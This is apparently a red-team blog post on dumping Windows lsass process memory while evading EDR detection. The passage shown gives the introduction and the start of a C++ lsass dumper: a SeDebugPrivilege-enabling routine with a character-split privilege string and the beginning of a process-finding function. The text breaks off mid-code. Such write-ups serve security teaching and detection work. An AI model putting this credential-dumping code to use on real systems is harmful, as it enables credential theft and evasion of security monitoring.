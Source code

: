 ```yaml
---
layout: post
title: "It’s all in the details: The curious case of an lsass dumper gone undetected"
author: "Mor Davidovich @Dec0ne"
---
```


Let me first start by saying I will not be revealing in this post any novel techniques or new research that hasn't been seen before. 
I will, however, reveal my own methodology when it comes to finding gaps in EDRs visibility in order to bypass detection. 
I will do so by showing the process of finding a simple way to dump lsass using basic and well known techniques while still being undetected even by the most sophisticated EDRs on the market.

## Small Beginnings
Our story begins with an internal 3-day workshop I taught in my team: “Intro to Malware Development”. 
I explained what is Win32 API and its various uses in malware development, and then we created a simple Lsass Dumper together in C++ using the plain old ***MiniDumpWriteDump*** API. 
It was not meant to bypass any AV/EDR as it was just an exercise to showcase Win32 API in action.

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#include <DbgHelp.h>
#pragma comment(lib, "Dbghelp.lib")

// Enable SeDebugPrivilige if not enabled already
BOOL SetDebugPrivilege() {
	HANDLE hToken = NULL;
	TOKEN_PRIVILEGES TokenPrivileges = { 0 };

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("[-] Could not get current process token with TOKEN_ADJUST_PRIVILEGES\n");
		return FALSE;
	}

	TokenPrivileges.PrivilegeCount = 1;
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	char sPriv[] = { 'S','e','D','e','b','u','g','P','r','i','v','i','l','e','g','e',0 };
	if (!LookupPrivilegeValueA(NULL, (LPCSTR)sPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		printf("[-] No SeDebugPrivs. Make sure you are an admin\n");
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
		CloseHandle(hToken);
		printf("[-] Could not adjust to SeDebugPrivs\n");
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}

// Find PID of a process by name
int FindPID(const char* procname)
{
```